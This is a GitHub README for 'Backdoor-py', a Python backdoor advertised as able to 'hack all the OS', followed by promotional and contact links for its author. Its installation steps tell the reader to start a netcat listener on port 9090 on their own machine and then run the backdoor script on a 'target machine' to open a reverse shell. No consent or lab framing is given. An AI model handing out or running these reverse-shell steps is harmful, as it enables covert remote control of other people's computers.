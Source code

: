 # Backdoor-py
Hack all the OS using python
## Requirements:

 - [python](https://www.python.org/) 
 - [Net cat]



## Installation 



1. Download and Extract the latest release from [HERE](https://github.com/karthi-the-hacker/Backdoor-py.git)

2. In the Your machine open Command prompt / Terminal and run 
    - `nc -lvp 9090` <- Listener 
  

3. In the Target machine open Command prompt / Terminal
    - `python backdoor.py <ip> ` <- It will triger the reverse connection
  
 
 ### Company Profile 🏢 :

<a href="https://university.cappriciosec.com/" ><img src="https://github.com/karthi-the-hacker/Gh0stR3c0n/raw/main/screenshots/banner/1.png"  width="200px" ></a>
<a href="https://www.cappriciosec.com/" ><img src="https://github.com/karthi-the-hacker/Gh0stR3c0n/raw/main/screenshots/banner/2.png" width="200px" ></a>
<a href="https://www.instagram.com/cappriciosec/" ><img src="https://github.com/karthi-the-hacker/Gh0stR3c0n/raw/main/screenshots/banner/6.png" width="200px" ></a>


### Contact info 📱 :

<a href="https://karthithehacker.com/" ><img src="https://github.com/karthi-the-hacker/Gh0stR3c0n/raw/main/screenshots/banner/3.png"  width="200px" ></a>
<a href="https://www.youtube.com/karthithehacker" ><img src="https://github.com/karthi-the-hacker/Gh0stR3c0n/raw/main/screenshots/banner/y.png" width="200px" ></a>
<a href="https://www.instagram.com/karthithehacker/" ><img src="https://github.com/karthi-the-hacker/Gh0stR3c0n/raw/main/screenshots/banner/5.png" width="200px" ></a>
<a href="https://www.linkedin.com/in/cyberspartan/" ><img src="https://github.com/karthi-the-hacker/Gh0stR3c0n/raw/main/screenshots/banner/7.png" width="200px" ></a>
<a href="https://api.whatsapp.com/send/?phone=+918270913635&text=Hi" ><img src="https://github.com/karthi-the-hacker/Gh0stR3c0n/raw/main/screenshots/banner/8.png" width="200px" ></a>
